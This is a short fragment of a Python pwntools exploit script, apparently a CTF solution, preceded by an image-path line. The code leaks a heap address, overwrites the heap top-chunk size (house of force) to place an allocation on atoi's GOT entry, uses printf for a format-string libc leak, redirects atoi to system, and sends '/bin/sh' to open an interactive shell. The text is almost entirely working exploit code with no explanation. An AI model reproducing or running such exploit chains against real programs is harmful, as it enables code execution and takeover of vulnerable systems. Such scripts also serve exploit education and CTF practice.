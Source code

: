 


	s.send("A"*0x40)

	s.recvuntil('Hey ')
	tmp = s.recv(0x40)
	tmp = u32(s.recv(4))
	top = tmp+220
	print "atoi got :",hex(atoi_got)
	print "top chunk address : ",hex(top)

	s.send("a"*0x40)
	s.sendline("\xff"*4)
	s.recvuntil('OKay! Enjoy:)')

	howmany = atoi_got-0x8-0x4+0xffffffff+1-top
	atoi = howmany-0x100000000
	print "malloc(",hex(howmany),") real : ",atoi

	makenote(atoi,'a\n')
	makenote(8,"AAAA"+p32(printf_plt))
	s.sendline('%x%x %x')
	s.recvuntil('10a ')
	libc = int('0x'+s.recv(8),16)-300694+one+324
	print "system : ",hex(libc)
	s.sendline('123')
	s.sendline('1')
	s.send("AAAA"+p32(libc))
	s.sendline('/bin/sh')

	s.interactive()


